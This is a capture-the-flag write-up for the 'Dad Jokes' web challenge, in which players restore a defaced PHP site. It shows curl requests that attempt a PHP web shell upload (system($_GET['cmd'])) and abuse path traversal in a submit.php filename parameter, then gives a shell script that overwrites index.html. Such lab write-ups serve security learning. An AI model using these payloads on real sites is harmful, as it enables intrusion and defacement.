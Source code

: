# Dad Jokes
**Category:** [Internet](../README.md)

**Points:** 15

**Description:**

Darn! Some idiot scriptkiddy broke my favorite website full of dad jokes!

I can't seem to contact the owner to fix the site

Can you bring it back and remove the defaced page?


http://timesink.be/dadjokes/

## Write-up
> TL;DR: The steps will describe the way we got to the answer for our own learning purposes. If you just want to know what the answer was, jump to the [solution](#solution)

### Steps
When you visit the link above, you are presented with the hacked page:

![Hacked page](hacked_page.png)

The first thing we did is look at the page's source. In there is the following comment:
```html
<!-- Hey bozo! I left your original index file under index_backup.html so you can see how your site looked before I used my l33t skillz to deface it. -->
```
We used this information to look at the old site at [http://timesink.be/dadjokes/index_backup.html]:

![Main page](main_page.png)

When we go to the *Read dad jokes* page, we get a list of available jokes. If we then click on one of the jokes, we notice that it includes a text file in the PHP page: `http://timesink.be/dadjokes/jokes/read.php?file=mugged.txt`.

This could be our way in. Looking at the *Submit your own jokes* page, when you enter something in the form, a filename is passed in using the *GET* method: `http://timesink.be/dadjokes/jokes/submit.php?filename=test.txt&title=test&content=A%20test%20joke`. This also has a prompt to confirm you want to submit:

![Submit review](submit_prompt.png)

If you click `YES`, the value `&submit=true` is added to the above *GET* URL.

We can use all this information to try to upload a file. After a few attempts, we tried to create a PHP file and got a 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=test.php&title=test&content=<%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F>&submit=true"
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```
Wondering what 'try that somewhere else!' could mean, and after trying a few things, we wondered if we needed to put a file in a different directory. Trying one directory up gave a different 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=../test.txt&title=test&content=a_test&submit=true"
You're on the right track, but are you trying to be a bit naughty?
```
After some more attempts, we tried to see if we could write to the `index.html` file in the previous directory. This gave us one final 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=a_test&submit=true"
You are definitely on the right track here... but what are you trying to accomplish?
```
OK! So maybe we can overwrite the `index.html` file with the original content from `index_backup.html`?

### Solution
After trying a few things, and getting the odd hint, it seemed we needed to use the submit form from the original website to put the original HTML back into the `index.html` file at the top level.

We wrote a script to read the `index_backup.html` file (left there by the hacker), and pass the result (once URL encoded) as the content to the `submit.php` script:
```bash
#!/bin/sh

URL=http://timesink.be/dadjokes
SUBMIT=jokes/submit.php?
OLDPAGE=index_backup.html

oldtext=$(curl $URL/$OLDPAGE | sed -e "s/ /%20/g" -e "s/'/%27/g" -e "s/=/%3D/g" -e "s/\"/%22/g")

echo $oldtext

flag=$(curl "$URL/${SUBMIT}filename=../index.html&title=index&content=$oldtext&submit=true")
echo $flag
```
Running this script returned the flag
